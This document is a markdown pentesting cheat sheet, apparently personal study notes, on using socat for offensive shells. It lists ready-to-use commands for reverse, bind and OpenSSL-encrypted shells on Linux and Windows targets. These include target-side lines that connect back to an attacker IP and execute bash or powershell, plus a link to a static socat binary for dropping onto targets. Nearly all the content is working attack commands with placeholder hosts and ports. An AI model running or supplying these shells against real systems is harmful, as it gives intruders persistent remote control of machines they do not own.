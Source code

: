 ## Socat (Soviet Gato)
​
Socat is like [[Netcat]] on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, have a more difficult syntax and is not very common that is installed in the target machine.
​
​
### Reverse Shell
​
#### Listener (attacker machine)
First we have the basic command that give us an unnestable shell:
​

>[!Tip] Option A
>```
>socat TCP-L:{any local port} -
>```

​
And then we have a command that will work only for ==Linux targets== but have a more stable shell result:
​

>[!Success] Option B
>```
>socat TCP-L:{any local port} FILE:tty,raw,echo=0
>```

​
​
#### Talker (target machine)
We are going to divide this sections based in its two posible target's operation system, but first we have to install a precompiled version of Socat in the target machine:
​

> [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

​
##### Linux

>[!Tip] For Option A
>```
>socat TCP:{local IP}:{local port} EXEC:"bash -li"
>```

​
Then, if you choosed to use the stable version (green box called Success) you must use the following stable feedback:
​

>[!Success] For Option B
>```
>socat TCP:{local IP}:{local port} EXEC:"bash -li",pty,stderr,sigint,setsid,sane
>```

- **EXEC:"bash -li"**, creates an interactive bash session
- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilises the terminal, attempting to "normalise" it

​​
​​
##### Windows

>[!Success]
>```
>socat TCP:{local IP}:{local port} EXEC:powershell.exe,pipes
>```

​
​
### Bind Shell
​
#### Listener (target machine)

It changes depending on the OS that the machine is using:
​
##### Linux

>[!Tip] Chebra
>```
>socat TCP-L:{target port} EXEC:"bash -li"
>```

​
​
##### Windows

>[!Tip] Chebra
>```
>socat TCP-L:{target port} EXEC:powershell.exe,pipes
>```

​
​
#### Talker (attacking machine)

>[!Tip] Chebra
>```
>socat TCP:{target IP}:{target port} -
>```

​
​
### Encrypted Shell
​
1. Generate OPENSSL certificates in order to use encrypted shells (attacking machine):
   
   >[!Tip] Chebra
   >```
   >openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
   >```
   
   ​
   This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
   ​
   ​
2. Merge the created files:
   
   >[!Tip] Chebra
   >```
   >cat shell.key shell.crt > shell.pem
   >```
   
   ​
   Merge them into a single ==.pem== file
   ​
   ​
3. Take on of the followings:
   ​
   #### Reverse Shell
   ##### Listener (Attacker Machine)
   
   >[!Tip] Chebra
   >```
   >socat OPENSSL-LISTEN:{target port},cert=shell.pem,verify=0 -
   >```
   
   ​
   This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate _must_ be used on whichever device is listening.
   ​
   ​
   ##### Talker (Target Machine)
   
   >[!Tip] Chebra
   >```
   >socat OPENSSL:{local IP}:{local port},verify=0 EXEC:/bin/bash
   >```
   
   ​
   ​
   #### Bind Shell
   ##### Listener (Target Machine)
   
   >[!Tip] Chebra
   >```
   >socat OPENSSL-LISTEN:{any target port},cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
   >```
   
   ​
   ​
   ##### Talker (Attacker Machine)
   
   >[!Tip] Chebra
   >```
   >socat OPENSSL:{target IP}:{target port},verify=0 -
   >```
   
   ​
   Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.